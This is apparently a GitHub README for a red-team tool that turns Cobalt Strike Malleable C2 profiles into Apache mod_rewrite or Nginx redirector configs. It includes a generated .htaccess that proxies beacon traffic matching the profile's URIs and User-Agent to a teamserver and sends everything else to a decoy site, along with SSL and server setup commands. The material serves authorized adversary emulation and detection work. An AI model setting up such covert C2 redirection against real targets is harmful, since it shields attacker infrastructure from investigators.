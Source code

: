 # Automatically Generate Rulesets for Apache mod_rewrite or Nginx for Intelligent HTTP C2 Redirection

This project converts a Cobalt Strike profile to a functional mod_rewrite `.htaccess` or Nginx config file to support HTTP reverse proxy redirection to a Cobalt Strike teamserver. The use of reverse proxies provides protection to backend C2 servers from profiling, investigation, and general internet background radiation.

***Note***: You should test and tune the output as needed before deploying, but these scripts should handle the heavy lifting.

## Features

- Now requires Python 3.0+ (this is 2020 after all)
- Supports the Cobalt Strike custom URI features as of CS 4.0
- Rewrite Rules based on valid C2 URIs (HTTP GET, POST, and Stager) and specified User-Agent string.
  - Result: Only requests to valid C2 endpoints with a specified UA string will be proxied to the Team Server by default.
- Uses a custom Malleable C2 profile to build a .htaccess file with corresponding mod_rewrite rules
- Uses a custom Malleable C2 profile to build a Nginx config with corresponding proxy_pass rules
- HTTP or HTTPS proxying to the Cobalt Strike Team Server
- HTTP 302 Redirection to a Legitimate Site for Non-Matching Requests

## Quick start

The havex.profile example is included for a quick test.

1) Run the script against a profile
2) Save the output to `.htaccess` or `/etc/nginx/nginx.conf` on your redirector
3) Modify as needed
4) Reload\restart the web server

## Apache mod_rewrite Example Usage

```
python3 cs2modrewrite.py -i havex.profile -c https://TEAMSERVER -r https://GOHERE > /var/www/html/.htaccess
#### Save the following as .htaccess in the root web directory (i.e. /var/www/html/.htaccess)

########################################
## .htaccess START 
RewriteEngine On
## Uncomment to enable verbose debugging in /var/logs/apache2/error.log
# LogLevel alert rewrite:trace5
## (Optional)
## Scripted Web Delivery 
## Uncomment and adjust as needed
#RewriteCond %{REQUEST_URI} ^/css/style1.css?$
#RewriteCond %{HTTP_USER_AGENT} ^$
#RewriteRule ^.*$ "http://TEAMSERVER%{REQUEST_URI}" [P,L]

## Default Beacon Staging Support (/1234)
RewriteCond %{REQUEST_URI} ^/..../?$
RewriteCond %{HTTP_USER_AGENT} "Mozilla/5.0 \(Windows; U; MSIE 7.0; Windows NT 5.2\) Java/1.5.0_08"
RewriteRule ^.*$ "http://TEAMSERVER%{REQUEST_URI}" [P,L]

## C2 Traffic (HTTP-GET, HTTP-POST, HTTP-STAGER URIs)
## Logic: If a requested URI AND the User-Agent matches, proxy the connection to the Teamserver
## Consider adding other HTTP checks to fine tune the check.  (HTTP Cookie, HTTP Referer, HTTP Query String, etc)
## Refer to http://httpd.apache.org/docs/current/mod/mod_rewrite.html
## Profile URIs
RewriteCond %{REQUEST_URI} ^(/include/template/isx.php.*|/wp06/wp-includes/po.php.*|/wp08/wp-includes/dtcla.php.*|/modules/mod_search.php.*|/blog/wp-includes/pomo/src.php.*|/includes/phpmailer/class.pop3.php.*|/api/516280565958.*|/api/516280565959.*)$
## Profile UserAgent
RewriteCond %{HTTP_USER_AGENT} "Mozilla/5.0 \(Windows; U; MSIE 7.0; Windows NT 5.2\) Java/1.5.0_08"
RewriteRule ^.*$ "https://TEAMSERVER%{REQUEST_URI}" [P,L]

## Redirect all other traffic here (Optional)
RewriteRule ^.*$ HTTPS://GOHERE/ [L,R=302]

## .htaccess END
########################################
```
## Apache Rewrite Setup and Tips

### Enable Rewrite and Proxy
    apt-get install apache2
    a2enmod rewrite headers proxy proxy_http ssl cache
    a2dismod -f deflate
    service apache2 reload

**Note:** https://bluescreenofjeff.com/2016-06-28-cobalt-strike-http-c2-redirectors-with-apache-mod_rewrite/
"e0x70i pointed out in the comments below that if your Cobalt Strike Malleable C2 profile contains an Accept-Encoding header for gzip, your Apache install may compress that traffic by default and cause your Beacon to be unresponsive or function incorrectly. To overcome this, disable mod_deflate (via a2dismod deflate and add the No Encode ([NE]) flag to your rewrite rules. (Thank you, e0x70i!)"

### Enable SSL support

Ensure the following entries are in the site's config (i.e. `/etc/apache2/available-sites/*.conf`)

    # Enable SSL
    SSLEngine On
    # Enable SSL Proxy
    SSLProxyEngine On
    # Trust Self-Signed Certificates generated by CobaltStrike
    SSLProxyVerify none
    SSLProxyCheckPeerCN off
    SSLProxyCheckPeerName off
    SSLProxyCheckPeerExpire off
### .HTACCESS

If you plan on using mod_rewrite in .htaccess files (instead of the site's config file), you also need to enable the use of `.htaccess` files by changing `AllowOverride None` to `AllowOverride All`. For all websites, edit `/etc/apache2/apache.conf`

    <Directory /var/www/>
        Options FollowSymLinks MultiViews
        AllowOverride All
        Order allow,deny
        allow from all
    </Directory>

Finally, restart apache once more for good measure.

`service apache2 restart`

### Troubleshooting

If you need to troubleshoot redirection rule behavior, enable detailed error tracing in your site's configuration file by adding the following line.

`LogLevel alert rewrite:trace5`

Next, reload apache, and monitor `/var/log/access.log` `/var/log/error.log` to see which rules are matching.

----------------------------------------------

## Nginx Example Usage

### Install Nginx

    apt-get install nginx nginx-extras

**Note:** `nginx-extras` is needed for custom server headers. If you can't get this package, then comment out the server header line in the resulting configuration file.

### Create Redirection Rules

Save the cs2nginx.py output to `/etc/nginx/nginx.conf` and modify as needed (SSL parameters).

`python3 ./cs2nginx.py -i havex.profile -c https://127.0.0.1 -r https://www.google.com -H mydomain.local >/etc/nginx/nginx.conf`

Finally, restart nginx after modifying the server configuration file.

`service nginx restart`

## Final Thoughts

Once redirection is configured and functioning, ensure your C2 servers only allow ingress from the redirector and your trusted IPs (VPN, office ranges, etc).

Consider adding additional redirector protections using GeoIP restrictions (mod_maxmind) and blacklists of bad user agents and IP ranges. Thanks to [@curi0usJack](https://twitter.com/curi0usJack) for the ideas.

## References

- [Joe Vest and Andrew Chiles - cs2modrewrite.py blog post](https://posts.specterops.io/automating-apache-mod-rewrite-and-cobalt-strike-malleable-c2-profiles-d45266ca642)

- [@bluescreenofjeff - Cobalt Strike HTTP C2 Redirectors with Apache mod_rewrite](https://bluescreenofjeff.com/2016-06-28-cobalt-strike-http-c2-redirectors-with-apache-mod_rewrite/)

- [Adam Brown - Resilient Red Team HTTPS Redirection Using Nginx](https://coffeegist.com/security/resilient-red-team-https-redirection-using-nginx/)

- [Apache - Apache mod_rewrite Documentation](http://httpd.apache.org/docs/current/mod/mod_rewrite.html)